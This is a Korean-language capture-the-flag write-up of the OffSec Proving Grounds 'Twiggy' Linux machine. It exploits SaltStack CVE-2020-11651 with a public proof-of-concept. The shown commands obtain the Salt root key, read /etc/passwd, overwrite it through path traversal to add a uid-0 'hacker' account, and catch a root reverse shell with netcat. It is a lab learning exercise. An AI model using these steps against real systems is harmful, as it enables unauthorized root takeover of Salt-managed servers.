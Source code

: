 # Twiggy



```
title: "Proving grounds Practice: Twiggy 문제풀이"
excerpt: "Offsec proving grounds practice linux machine writeup"
categories: pg_practice
tags: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- pg-practice
typora-root-url: ../../
date: 2025-08-25
last_modified_at: 2025-08-26
```

### Nmap

```
$ nmap -p- -Pn -n --open 192.168.58.62
[ . . . ]
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open domain
80/tcp   open http
4505/tcp open unknown
4506/tcp open unknown
8000/tcp open http-alt
```

### Web

#### PORT: 80

![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image.png?lastModify=1759135357)

#### PORT: 8000

![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-1.png?lastModify=1759135357)

The SaltStack Salt REST API 가 실행중인 것을 확인

![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-2.png?lastModify=1759135357)

### Vulnerability Analysis

#### CVE-2020-11651

[Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

* CVE-2020-11651은 SaltStack Salt라는 IT 자동화 및 원격 관리 도구에서 발견된 인증 우회(authentication bypass) 취약점
* 영향을 받는 버전: **2019.2.4 이전 및 3000 이전 버전의 SaltStack Salt**
* SaltStack의 salt-master 프로세스 내 ClearFuncs 클래스에서 메서드 호출을 제대로 검증하지 않아 발생
* 공격자는 인증 절차 없이 특정 메서드에 접근 가능
* 이를 통해 공격자는 salt master에서 사용자 토큰(root 권한을 가진 키)을 탈취할 수 있으며, salt minion(관리 대상 서버)에서 임의의 명령어를 실행할 수 있게 된다.
* CVSS v3 기준 기본 점수 10.0 (치명적, Critical)
* 공격자가 네트워크에서 Salt Master의 **포트 4505 또는 4506**에 접속할 수 있으면 공격 가능

### Exploitation

[used exploit](https://github.com/jasperla/CVE-2020-11651-poc)

해당 익스플로잇을 사용하기 위해서 `salt` 설치가 필요하다.

```
# 가상환경에서 salt 설치
python3 -m venv ~/salt_env
source ~/salt_env/bin/activate
pip install salt
​
# 의존성 문제 발생 시 아래 목록 추가 설치
pip3 install pyzmq PyYAML pycrypto msgpack jinja2 psutil tornado
​
```

exploit 실행

```
(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/salt/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
warn_until(
[+] Checking salt-master (192.168.53.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
​
---
​
python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-3.png?lastModify=1759135357)

`/etc/passwd` 파일을 읽고 쓰는 것이 가능하다.

초기 침투에는 2가지 방법이 있는데 첫번째는 새로운 유저를 루트권한으로 생성 후 접근하는 것이고 두번째는 리버스쉘을 실행시켜 쉘을 획득하는 방법이 있다.

먼저 첫번째 방법으로 익스플로잇 시도.

#### Create new user

```
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`openssl`을 이용해 `passwd`에 들어갈 패스워드 `hacked`를 해시화 해준다.

이후 `passwd`의 형식에 맞게 위 해시를 이용해 계정 정보를 만들어준다.

```
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

익스플로잇의 업로드 기능을 이용해 조작한 `passwd` 파일을 타겟 호스트에 업로드한다.

```
(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62 --upload-src passwd --upload-dest ../../../../../../../../../../../../etc/passwd
​
```

* `passwd` 업로드 ![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-6.png?lastModify=1759135357)

**Verify the user existence**

* 수정된 `passwd` -> `hacker:hacked` 계정이 생성된 모습 ![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-5.png?lastModify=1759135357)

**Root 권한 획득**

* 이후 ssh 접근을 시도해 루트 권한을 획득했다. ![img](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-4.png?lastModify=1759135357)

#### Reverse Shell

주의할 점: 리버스쉘은 **4505 또는 4506 포트** 에서만 가능하다.

* 리버스 쉘을 실행시켜 루트 권한 획득에 성공했다. ![리버스쉘](file:///Users/user/naaamgi.github.io/images/2025-08-25-twiggy/image-7.png?lastModify=1759135357)

루트 쉘 획득

```
┌──(kali㉿kali)-[~/Desktop/offsec]
└─$ nc -lnvp 4505
listening on [any] 4505 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.186.62] 36348
​
[root@twiggy root]# id; hostname; ip a;
id; hostname; ip a;
uid=0(root) gid=0(root) groups=0(root)
twiggy
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
  link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
  inet 127.0.0.1/8 scope host lo
      valid_lft forever preferred_lft forever
3: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:50:56:ab:1f:b0 brd ff:ff:ff:ff:ff:ff
  inet 192.168.186.62/24 brd 192.168.186.255 scope global ens160
      valid_lft forever preferred_lft forever
​
```
